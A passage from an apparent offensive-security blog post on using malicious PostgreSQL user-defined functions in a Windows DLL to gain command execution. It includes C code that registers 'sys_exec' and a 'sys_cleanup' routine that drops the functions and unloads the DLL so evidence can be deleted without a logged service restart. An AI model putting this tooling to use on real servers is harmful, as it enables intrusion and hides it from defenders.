 ```c
		sprintf(regcmd, "CREATE OR REPLACE FUNCTION sys_exec(text) RETURNS int4 AS '%s', 'sys_exec' LANGUAGE c VOLATILE STRICT COST 1", ModulePath);
		elog(NOTICE, "[sys_register] Command:\n%s", regcmd);
		ret = SPI_exec(regcmd, 0);

		free(regcmd);

		SPI_finish();
		result = 1;
	}
	PG_RETURN_INT32(result);
}
...
```
*Source: [main.c][7]*

#### Poly is leaving: sys_cleanup()
Every story has to end, even for Poly. When we have done all the required tasks as information gathering and lateral movement, remember UDF is a mechanism to achieve the first RCE, we will use it to move to another more flexible and persistent mechanism as a backdoor or implant. To leave no trace nor clue about our abuse of the PostgreSQL we need to delete the functions and the DLL file. PostgreSQL keeps the module loaded on memory even when no function is registered, normaly we will need to restart the service to be able to delete the files, but we don't want to leave that event in the event log. We need to unload the module from memory and end execution, this will be almos imposible as the DLL unloading requires unmap the memory where is our code. We are not the only ones that requires this kind of functionality and Windows API have the answer! [*FreeLibraryAndExitThread*][10], we will use it to decrement de module count so the Windows will unmap the DLL from memory and release the lock of the file. We cannot do it from inside the called function because it will generate a crash, the *FreeLibraryAndExitThread* does not returns and the PostgreSQL expects every function it calls to return safely. To avoid this restriction we will use a Thread that will sleep for a second and then call [*FreeLibraryAndExitThread*] to unload and unmap the DLL and allow us to delete the DLL file!
```c
/*
UDF that use SPI to unload DLL module for allowing deleting it from disk. It will also drop all the UDFs in the DLL if @dropFn is true.
@dropFn flag to enable UDFs unregistering.
*/
PGDLLEXPORT Datum sys_cleanup(PG_FUNCTION_ARGS);
PG_FUNCTION_INFO_V1(sys_cleanup);
Datum sys_cleanup(PG_FUNCTION_ARGS) {
	int result;
	result = 0;
	bool dropFn = PG_GETARG_BOOL(0);

	// Reference: https://www.postgresql.org/docs/9.0/spi-examples.html
	if (dropFn && SPI_connect() == SPI_OK_CONNECT) {
		int ret;

		elog(NOTICE, "[sys_cleanup] Going to DROP sys_register");
		ret = SPI_exec((LPCSTR)"drop function sys_register()", 0);
		elog(NOTICE, "[sys_cleanup] SPI_exec returnet %d", ret);

		elog(NOTICE, "[sys_cleanup] Going to DROP sys_eval");
		ret = SPI_exec((LPCSTR)"drop function sys_eval(text)", 0);
		elog(NOTICE, "[sys_cleanup] SPI_exec returnet %d", ret);

		elog(NOTICE, "[sys_cleanup] Going to DROP sys_exec");
		ret = SPI_exec((LPCSTR)"drop function sys_exec(text)", 0);
		elog(NOTICE, "[sys_cleanup] SPI_exec returnet %d", ret);

		elog(NOTICE, "[sys_cleanup] Going to DROP sys_cleanup");
		ret = SPI_exec((LPCSTR)"drop function sys_cleanup(bool)", 0);
		elog(NOTICE, "[sys_cleanup] SPI_exec returnet %d", ret);
```

[rop-web]: https://www.rop.la
[rop-twitter]:   https://twitter.com/rop_la
[rop-github]:   https://github.com/rop-la/
[rop-youtube]: https://www.youtube.com/channel/UCg01TfhxLro71ppULtIBAjw